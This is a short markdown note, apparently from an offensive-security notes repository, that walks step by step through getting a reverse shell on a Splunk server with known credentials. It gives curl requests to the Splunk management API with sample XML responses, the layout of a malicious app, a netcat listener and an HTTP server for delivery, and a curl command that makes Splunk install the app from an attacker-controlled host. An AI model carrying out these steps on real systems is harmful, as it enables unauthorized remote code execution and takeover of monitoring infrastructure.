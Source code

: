 # splunk

## splunk app: reverse shell

Prerequisite: user:password

Steps:

1. Find the endpoint

        $ curl -k -X GET -u <user>:<password> https://<ip>:8089/services/apps/
        <?xml version="1.0" encoding="UTF-8"?>
            <generator build="XXX" version="8.0.5"/>
            <author>
              <name>Splunk</name>
            </author>
            ...
            <link href="/services/apps//local/_new" rel="create"/>
            <link href="/services/apps//local" rel="list"/>
            <link href="/services/apps//local/_reload" rel="_reload"/>
            ...

        $ curl -k -X GET -u <user>:<password> https://<ip>:8089/services/apps//local/_new
        <?xml version="1.0" encoding="UTF-8"?>
            ...
            <s:key name="write">
              <s:list>
                <s:item>admin</s:item>
                <s:item>splunk-system-role</s:item>
              </s:list>
            </s:key>
            ...

2. Define the app

        # src/exploits/multiple/splunk
        splunk_app_rshell/
        ├── bin
        │   └── code.py
        └── default
            └── inputs.conf

3. Start listeners

    python -m http.server 8080  # to deliver the app.tar.gz
    nc -l -v -p 6666            # for a reverse shell connection

4. Upload the app

    $ tar -zcvf splunk_app.tar.gz ./splunk_app_rshell
    $ curl -k -X POST -u <user>:<password> https://<ip>:8089/services/apps//local \
        -d filename=True \
        -d name=http://<attacker-ip>:8080/splunk_app.tar.gz \
        -d visible=True

